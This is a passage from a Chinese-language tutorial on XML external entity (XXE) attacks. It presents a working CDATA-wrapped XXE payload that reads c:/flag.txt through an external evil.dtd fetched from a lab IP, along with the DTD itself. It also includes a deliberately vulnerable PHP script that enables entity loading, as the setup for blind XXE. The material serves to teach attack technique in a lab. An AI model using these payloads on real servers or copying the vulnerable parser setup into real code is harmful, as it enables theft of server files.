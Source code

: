 ![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/xxe1.png)

因为flag.txt文件中没有特殊符号，比如 & < > ” ’ ，所以获取文件内容很顺利，如果把文件内容加点特殊符号，比如下面这个样子，在原来基础上加上左右尖括号：

```
<XXE Payload Executed Successfully!!!>
```

此时再访问就是这个样子：

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/xxe2.png)

可以看到当被读取文件中含有特殊符号时，不但没有预期想要的结果，还返回了一堆错误，这个时候就需要使用CDATA了，下面是引用WIKI中关于CDATA的介绍。

>CDATA，意为character data，是标记语言SGML与XML，表示文档的特定部分是普通的字符数据，而不是非字符数据或有特定、限定结构的字符数据。
>在XML文档或外部实体中，一个CDATA section是一段按字面解释的内容，不作为标记文本。字符用CDATA节表示或者按照标准语法表示，并无差异。例如"<" 与 "&" 分别表示 "&lt;" 与 "&amp;"。

其实简单一点的来说也就是说，将脚本代码定义为 "CDATA" 后，CDATA 部分中的内容就会被解析器忽略，这个时候就可以读取文件了，那么接下来把Payload修改修改。

### CDATA Payload（在本地）

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///c:/flag.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://192.168.10.30/evil.dtd">  #本地IP
%dtd; ]> 

<roottag>&all;</roottag>
```

### evil.dtd（在本地）

```
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/xxe3.png)

利用带有CDATA的Payload，可以看到特殊符号被成功绕过。

不过在正常环境中，服务器上的XML就不是用来输出的，XML文件一般都是用于配置或者在一些极端条件下才能刚好实例化解析XML的类，因此在现实环境中利用这个漏洞就需要找到不依靠回显的方法。

## 2、无回显读取本地敏感文件 (Blind XXE)

### xxe_test.php（在靶机）

```
<?php
libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
?>
```

